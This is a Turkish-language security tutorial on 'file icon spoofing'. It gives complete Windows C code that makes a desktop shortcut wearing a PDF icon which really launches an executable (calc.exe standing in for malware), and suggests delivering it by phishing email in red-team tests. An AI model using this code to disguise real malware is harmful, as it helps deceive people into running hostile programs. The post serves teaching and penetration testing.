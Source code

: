 ```yaml
---
title: PDF Icon File Spoofing
date: 2024-07-31 
---
```


Merhabalar, bu yazıda File Icon Spoofing tekniğini inceleyeceğiz.

Kısaca tekniği özetlemek gerekirse oluşturulan malware'in programın icon'u değiştirilerek kullanıcıyı yanıltma tekniğidir. Bu sayede kullanıcı, ilgili malware'i zararsız bir dosya olarak görebilir. Malware için belirlediğiniz icon, bu konuda örnek olarak gösterileceği gibi bir PDF olabilir veya bir başka icon olabilir. Tekniğin, sosyal mühendislik saldırıları için oldukça etkili bir yöntem olabilir ve ayrıca Pentest ve Red Team çalışmalarında da kullanılışlı olabilir.

Konunun daha iyi anlaşılması için örnek senaryo üzerinden ilerleyelim, bir şirketin iç ağının güvenliğini test etmek amacıyla görevlendirilmiş bir pentester olduğunuzu düşünün. Şirket çalışanlarının kötü amaçlı dosyaları açma konusunda ne kadar dikkatli olduklarını test etmeniz gerekiyor. Bu bağlamda, kötü amaçlı yazılımınızı zararsız bir PDF dosyası olarak maskeleyerek, bir kimlik avı e-postası aracılığıyla veya paylaşılan bir klasöre yerleştirerek gönderebilirsiniz. Eğer bir çalışan bu dosyayı açarsa, dosya aslında zararlı yazılımı çalıştırarak sistemlerine erişim sağlar.

## Code

> Bu konu için kullandığım kod parçası, S12 H4CK'in PDF Icon File Spoofing konusundan alınmış ve tarafımca güncellenmiştir. Daha fazla detay için Referanslar kısmından makalesine göz atabilirsiniz.

Hazırlanan örnek kod parçasının github link'ine erişmek için [buraya](https://github.com/0xbekoo/maldev/tree/main/C/File-Icon-Spoofing) tıklayabilirsiniz.

```c
#include <stdio.h>
#include <strsafe.h>
#include <wchar.h>
#include <ShlObj.h>
#include <objbase.h>
#include <Windows.h>

BOOL CreateShortcut(const wchar_t* TargetPath, const wchar_t* ShortcutPath, const wchar_t* IconPath ) {
    HRESULT         HRES; 
    IShellLink*     PSL = NULL;
    IPersistFile*   PPF = NULL;

    CoInitialize(NULL); 
    
    HRES = CoCreateInstance(&CLSID_ShellLink, NULL, CLSCTX_INPROC_SERVER, &IID_IShellLink, (void**)&PSL);
    if (FAILED(HRES)) {
        wprintf(L"Failed to create IShellLink Object! Error Code:  0x%08X\n", HRES);
        return 1;
    }
    PSL->lpVtbl->SetPath(PSL, TargetPath);
    PSL->lpVtbl->SetIconLocation(PSL, IconPath, 0);
    PSL->lpVtbl->SetDescription(PSL, L"Very important file");

    HRES = PSL->lpVtbl->QueryInterface(PSL, &IID_IPersistFile, (void**)&PPF);
    if (FAILED(HRES)) {
        wprintf(L"Failed to interface! Error Code: 0x%08X\n", HRES);
        return 1;
    }
    HRES = PPF->lpVtbl->Save(PPF, ShortcutPath, TRUE);
    PPF->lpVtbl->Release(PPF);
    PSL->lpVtbl->Release(PSL);
    CoUninitialize();

    wprintf(L"Shortcut Created!\n");
    return 0;
}

int main()
{
    wchar_t TargetPath[MAX_PATH]    = L"C:\\Windows\\System32\\calc.exe";
    wchar_t IconPath[MAX_PATH]      = L"C:\\path\\to\\pdficon.ico";
    wchar_t ShortcutPath[MAX_PATH];
    HRESULT HRFolder;

    HRFolder = SHGetFolderPath(NULL, CSIDL_DESKTOPDIRECTORY, NULL, 0, ShortcutPath);
    if (FAILED(HRFolder)) {
        wprintf(L"Failed to get Desktop Path! Error Code: 0x%08X\n", HRFolder);
        return 1;
    }
    StringCchCatW(ShortcutPath, MAX_PATH, L"\\Projects.lnk");
    wprintf(L"Merged Path: %s\n", ShortcutPath);
    
    if (CreateShortcut(TargetPath, ShortcutPath, IconPath) > 0) {
        wprintf(L"Failed to create Shortcut!\n");
        return -1;
    }
    return 0;
}
```

Kodlara detaylıca göz atalım ve main içerisinden başlayalım:

```c
wchar_t TargetPath[MAX_PATH]    = L"C:\\Windows\\System32\\calc.exe";
wchar_t IconPath[MAX_PATH]      = L"C:\\path\\to\\pdficon.ico";
wchar_t ShortcutPath[MAX_PATH];
```

- **TargetPath:** Bu değişken, oluşturulacak kısayolun hedef dosyasının yolunu belirtir. Bu değişken bizim malware'in yolunu belirtir.
- **IconPath:** Bu değişken, oluşturulacak kısayolun icon'unun yolunu belirtir. 
- **ShortcutPath:** Bu değişken, oluşturulacak kısayolun yolunu belirtir. <br/> <br/>


```c
HRFolder = SHGetFolderPath(NULL, CSIDL_DESKTOPDIRECTORY, NULL, 0, ShortcutPath);
if (FAILED(HRFolder)) {
    wprintf(L"Failed to get Desktop Path! Error Code: 0x%08X\n", HRFolder);
    return 1;
}
StringCchCatW(ShortcutPath, MAX_PATH, L"\\Projects.lnk");
wprintf(L"Merged Path: %s\n", ShortcutPath);
```

Bu kısımda ise ilk olarak **SHGetFolderPath** fonksiyonu ile desktop dizinin tam yolunu alıyoruz. Ardından alınan dizin yoluna ise StringCchCatW aracılığıyla oluşturulacak kısayol ismi ile birleştiriyoruz. Bu sayede oluşturulacak kısayol'un tam yolunu elde etmiş oluyoruz. 

Bu kısayol ismini **Projects.lnk** olarak ayarladım. Siz dilerseniz bunu değiştirebilirsiniz. <br/> <br/>

```c
if (CreateShortcut(TargetPath, ShortcutPath, IconPath) > 0) {
    wprintf(L"Failed to create Shortcut!\n");
    return -1;
}
```

Bu kısımda ise oluşturduğumuz CreateShortcut fonksiyonunu çağırıyoruz ve if ile bir karşılaştırma yapıyoruz. Eğer CreateShortcut fonksiyonu 0'dan yüksek yani 1 değerini döndürürse hata mesajı ekrana bastırarak -1 ile programı return ettiriyoruz. <br/> <br/>

```c
CoInitialize(NULL); 
    
HRES = CoCreateInstance(&CLSID_ShellLink, NULL, CLSCTX_INPROC_SERVER, &IID_IShellLink, (void**)&PSL);
if (FAILED(HRES)) {
    wprintf(L"Failed to create IShellLink Object! Error Code:  0x%08X\n", HRES);
    return 1;
}
```

CreateShortcut fonksiyon içerisinde ise ilk olarak CoInitialize fonksiyonu ile COM bileşenlerini başlatıyoruz. Peki ama neden COM bileşenlerini başlatıyoruz? 

Çünkü IShellLink ve IPersistFile interface'leri COM bileşenleridir. Bu interface'ler bizim kısayol oluşturmak için kullanacağımız araçlardır. Dolayasıyla bunlara erişmemiz için COM bileşenlerini başlatmamız gerekmektedir. 

Ardından CoCreateInstance fonksiyonu ile IShellLink interface'ini oluşturuyoruz. Eğer bu işlem başarısız olursa hata mesajı bastırarak programı return ettiriyoruz. <br/> <br/>

```c
PSL->lpVtbl->SetPath(PSL, TargetPath);
PSL->lpVtbl->SetIconLocation(PSL, IconPath, 0);
PSL->lpVtbl->SetDescription(PSL, L"Very important file");

HRES = PSL->lpVtbl->QueryInterface(PSL, &IID_IPersistFile, (void**)&PPF);
if (FAILED(HRES)) {
    wprintf(L"Failed to interface! Error Code: 0x%08X\n", HRES);
    return 1;
}
```

Bu kod bloğunda ise oluşturduğumuz IShellLink interface'ine **Target Path**, **Icon Path** ve **Description** ekliyoruz. Bu adımlar, oluşturacağımız kısayolun özelliklerini belirtir. 

Ardından QueryInterface fonksiyonu ile IPersistFile interface'ine erişim sağlıyoruz. Eğer bu işlem başarısız olursa hata mesajı bastırarak programı return ettiriyoruz. <br/> <br/>

```c
HRES = PPF->lpVtbl->Save(PPF, ShortcutPath, TRUE);
PPF->lpVtbl->Release(PPF);
PSL->lpVtbl->Release(PSL);
CoUninitialize();

wprintf(L"Shortcut Created!\n");
```

Son olarak ise Save fonksiyonu ile oluşturduğumuz kısayolu, main içerisinde oluşturduğumuz tam yoluna kaydediyoruz. Ardından IPersistFile ve IShellLink interface'lerini serbest bırakıyoruz. CoUninitialize fonksiyonu ile COM bileşenlerini sonlandırıyoruz. Son olarak kısayolun oluşturulduğuna dair bir mesaj bastırıyoruz. <br/> <br/>

## Programı Çalıştırma

Programı çalıştırdığımızda ise masaüstünde kısayolumuz aşağıdaki gibi gözükecektir:

![](../../../images/posts/file-spoofing/img1.png)

Kısayolumuz aslında pdf gibi gözükse de özelliklerine göz attığımızda aslında farklı bir program çalıştıracaktır:

![](../../../images/posts/file-spoofing/img2.png)

Özelliklerine göz attığımızda ise aslında bu kısayolun **calc.exe** programını çalıştırdığını görmekteyiz.

## Sonuç

Bu konumda, icon file spoofing tekniğini ele aldık. Unutmayın ki bu teknik, Pentest ve Red Team çalışmalarında da kullanılışlı olabilir. 

Umarım faydalı olmuştur, teşekkürler! 🚀

## References 

- [S12 H4CK - PDF Icon File Spoofing](https://medium.com/@s12deff/pdf-icon-file-spoofing-dbfd76476b82)

